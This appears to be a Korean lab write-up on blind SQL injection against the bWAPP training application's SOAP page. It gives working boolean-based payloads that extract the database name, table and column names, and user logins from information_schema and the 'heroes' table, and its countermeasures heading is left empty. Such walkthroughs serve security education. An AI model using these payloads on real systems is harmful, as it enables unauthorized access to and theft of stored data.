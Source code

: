 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind (WS/SOAP)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### WS/SOAP

SOAP : 일반적으로 널리 알려진 HTTP, HTTPS, SMTP 등을 통해 XML 기반의 메시지를 컴퓨터 네트워크 상에서 교환하는 프로토콜

![image-20220317033102972](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317033102972.png)

![image-20220317034152786](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317034152786.png)

- GET 방식으로 URL에 변수 노출하는 것 확인
- 작은 따옴표 넣어봐서 SQL 코드 유추해보자

![image-20220317034239335](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317034239335.png)

- 변수에 작은 따옴표 하나 넣어보니 요런 메시지 뜬것을 알 수 있다.
- 항상 참인 구문을 넣어보자

<BR>

### 항상 참 구문

![image-20220317034351696](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317034351696.png)

`http://172.30.1.25/bWAPP/sqli_5.php?title=%27%20or%201=1%20#&action=go`

- 그대로다.

### 거짓 구문

![image-20220317034441833](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317034441833.png)

`http://172.30.1.25/bWAPP/sqli_5.php?title=%27%20or%201=0#&action=go`

- 미동도 없다.

  흠..

- 주석처리로 뒷 문들을 모두 무효시키기 때문에 SOAP가 적용되지 않는 것을 확인할 수 있다.

- 또한 현재 참 거짓 구문에서 주석을 뺴도 여전히 문제상황에 놓이는데 이는 유추해본 SQL문에서 알 수 있다.

`"select * from table where title %' " . %title . " '%";`

- 위와 같이 되어있다고 유추할 수 있는데 .%title. 에 변수 값이 들어가기 위해서는
- ' or 'a'='a로 앞의 작은 따옴표와 뒤의 작은 따옴표를 충족시켜줘야 하기 때문에 그렇다.

<BR>

### 다른 참 구문

![image-20220317035146643](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035146643.png)

`' or 'a'='a`

-  참 결과

### 다른 거짓 구문

![image-20220317035230788](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035230788.png)

`' or 'a'='b`

- 거짓 결과
- 이를 이용해 메타 정보를 긁어 모아보자

<br>

### DB 조회

![image-20220317035230788](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035230788.png)

`' or length(database())=1 and 'a'='a`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내주고

`' or ascii(substring(database(),1,1))>96 and 'a'='a`

- 다음으로 문자를 알아내야 하는데
- ascii 명령어를 통해 대문자인지 소문자인지를 먼저 구분해준다.

`' or substring(database(),1,1)='a' and 'a'='a`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

`SUBSTR(str, pos, len)`

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

<br>

### 테이블 조회

![image-20220317035230788](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035230788.png)

`' or length((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1))=1 and 'a'='a`

- 길이 구해주고

`' or ascii(substring((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1),1,1))>96 and 'a'='a`

- 대소문자 구분해준 후

`' or substring((select table_name from information_schema.tables where table_schema='bWAPP' limit 0,1), 1,1)='a' and 'a'='a`

- 문자 대조를 통해 테이블을 구해준다.

<br>

### 컬럼 조회

![image-20220317035230788](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035230788.png)

`' or length((select column_name from information_schema.columns where table_name='heroes' limit 0,1))=1 and 'a'='a`

- 길이

`' or ascii(substring((select column_name from information_schema.columns where table_name='heroes' limit 0,1),1,1))>96 and 'a'='a`

- 대소문자

`' or substring((select column_name from informaion_schema.columns where table_name='heroes' limit 0,1),1,1)='a' and 'a'='a`

- 대조..
- 힘내자.. 다왔다.

<br>

### 컬럼 속성

![image-20220317035230788](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317035230788.png)

`' or length((select login from heroes limit 0,1))=1 and 'a'='a`

- 마찬가지로 길이

`' or ascii(substring((select login from heroes limit 0,1),1,1))>96 and 'a'='a`

- 대소문자..
- 쉽게 얻어지는 건 업따. 인생이 그러타.. 해킹도 마찬가지다.

`' or substring((select login from heroes limit 0,1),1,1)='a' and 'a'='a`

- 대조
- 고생했다.

<br>

<br>

## 대응방안



